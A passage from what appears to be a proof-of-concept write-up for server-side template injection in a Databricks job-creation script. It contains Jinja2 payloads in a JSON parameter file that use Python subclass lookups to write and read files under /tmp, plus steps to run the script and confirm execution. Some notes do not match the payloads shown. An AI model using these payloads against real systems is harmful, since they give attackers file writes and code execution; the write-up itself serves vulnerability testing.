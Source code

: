          "par_cdc_volume": "testcdc-volume",
          "par_cdc_volume_val": "testcdc-volume_val",

          "par_numberofstreams": "testnumberofstreams",
          "par_numberofstreams_val": "testnumberofstreams_val",

          "par_configfilepath": "testconfigfilepath",
          "par_configfilepath_val": "testconfigfilepath_val",

          "description": "Malicious job to test SSTI"
        }
        ```
        **Note:** This payload is a basic example of SSTI. It attempts to write `whoami` to `/tmp/shell.sh` and then read it back. The specific subclass index `406` for `file` might need to be adjusted based on the Python version and environment. A more robust payload might involve more sophisticated techniques to achieve command execution without relying on specific subclass indices, or using different Jinja2 functionalities to achieve code execution.  This payload is designed for demonstration and might not be directly exploitable in all environments due to permissions or other restrictions. For a real-world attack, more refined payloads would be used.

    3. **Prepare a simple shell script for execution (optional, for more impactful test):**
        - Create a file named `shell.sh` in the `/tmp/` directory (if the target system allows writing to `/tmp/`) with the following content and make it executable (`chmod +x /tmp/shell.sh`):
        ```sh
        #!/bin/bash
        echo "Exploit executed: $(date)" > /tmp/exploit.log
        ```
        - Modify the `malicious_job.json` to execute this script:
        ```json
        {
          "name": "Malicious Job",
          "workers": 1,
          "notebookpath": "/NoteBookPathLevel1/NoteBookName",

          "par_sourcesystem": "{{ ''.__class__.__mro__[2].__subclasses__()[406]('/tmp/shell.sh', 'w').write('#!/bin/bash\\necho \\\"Exploit executed: $(date) \\\" > /tmp/exploit.log\\n') }}",
          "par_sourcesystem_val": "{{ ''.__class__.__mro__[2].__subclasses__()[406]('/tmp/shell.sh', 'r').read() }}{{ ''.__class__.__mro__[2].__subclasses__()[406]('/bin/bash', 'r').read() }}",

          "par_cdc_volume": "testcdc-volume",
          "par_cdc_volume_val": "testcdc-volume_val",

          "par_numberofstreams": "testnumberofstreams",
          "par_numberofstreams_val": "testnumberofstreams_val",

          "par_configfilepath": "testconfigfilepath",
          "par_configfilepath_val": "testconfigfilepath_val",

          "description": "Malicious job to test SSTI"
        }
        ```
        **Note:** This is a more aggressive payload that attempts to overwrite `/tmp/shell.sh` with a script that logs the execution date to `/tmp/exploit.log`.

    4. **Run the `job.py` script:**
        ```bash
        python job.py --params params.json
        ```
    5. **Check for exploit execution:**
        - After running the script, check if the command `whoami` was executed (in the first example, you might need to inspect logs or outputs if the result of `whoami` is captured or displayed).
        - In the second example, check if the `/tmp/exploit.log` file exists and contains the "Exploit executed: ..." string with the current date and time.
    6. **Observe Databricks Job Definition (in Databricks UI):**
        - After the script runs, a new job named "Malicious Job" will be created in Databricks.
        - Inspect the job definition in the Databricks UI. You will see that the `base_parameters` for the notebook task contain the injected Jinja2 code as values for `par_sourcesystem` and `par_sourcesystem_val`.